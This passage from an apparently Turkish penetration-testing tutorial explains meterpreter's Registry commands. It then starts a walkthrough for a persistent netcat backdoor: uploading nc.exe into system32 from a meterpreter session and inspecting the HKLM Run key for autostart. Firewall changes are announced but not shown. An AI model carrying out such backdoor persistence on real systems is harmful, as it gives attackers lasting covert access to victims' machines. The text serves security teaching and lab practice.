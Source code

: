 

Yardım komutunun sonucunda görebileceğiniz gibi, `reg` komutu, Registry üzerinde okuma (`queryval`), yazma (`setval`), yeni ayarlama oluşturma (`createkey`) ve silme (`deletekey`) olanağı sağlamaktadır.



Bu komutlar sayesinde yeni değerler oluşturma, değerleri değiştirme yapabileceğiniz gibi doğru yerlere bakarak sistem hakkında bilgi toplama işlemleri de yapabilirsiniz. Windows Registry içerisinde hangi değerin nerede kayıt edildiği hakkında kendinizi geliştirmenizi tavsiye ediyorum. Bir fikir vermesi açısından bağlantıda bulunan PDF dosyasını inceleyebilirsiniz. <a href="https://support.accessdata.com/hc/en-us/article_attachments/201717329/Registry_Quick_Find_Chart_9-27-10.pdf">List</a>



## Kalıcı Netcat Arka Kapısı



Aşağıda adım adım gerçekleştireceğimiz örnekte, hedef sisteme `netcat` programını yerleştireceğiz. Registry ayarlarında işlemler yaparak `netcat` programının bilgisayar açıldığında otomatik başlamasını ayarlayacağız. Sistemde bulunan Firewall ayarlarının, `netcat` programına ve 445 numaralı porta müsaade etmesini sağlayacağız.



<h3 class="wp-block-heading" id="ncexe-programını-yükleme">nc.exe Programını Yükleme



Öncelikle hedef Windows işletim sisteminin içerisine `nc.exe` olarak bilinen netcat programını yükleyelim. Bunun için önceden bir şekilde meterpreter shell açmış olmalısınız. Bununla ilgili örnekleri önceki yazılarımızda belirtmiştik. Kali işletim sistemi içerisinde `/usr/share/windows-binaries/` klasöründe faydalı bir kaç programı bulabilirsiniz.


```bash
meterpreter **&gt;** upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
**[*********]** uploading  : /tmp/nc.exe -&gt; C:\windows\system32
**[*********]** uploaded   : /tmp/nc.exe -&gt; C:\windows\system32nc.exe
```



<h3 class="wp-block-heading" id="netcat-başlangıçta-otomatik-çalışsın">netcat Başlangıçta Otomatik Çalışsın



nc.exe programının işletim sisteminin her başladığında çalışması için Registry içinde `HKLM\software\microsoft\windows\currentversion\run` anahtarına bir değer oluşturmalısınız. Öncelikle, mevcut değerleri ve ayarları görelim. Ters \ işaretlerinin iki defa yazıldığına dikkat edin.


```bash
meterpreter **&gt;** reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
Enumerating: HKLM\software\microsoft\windows\currentversion\run

  Values **(**3**)**:

    VMware Tools
    VMware User Process
    quicktftpserver
```
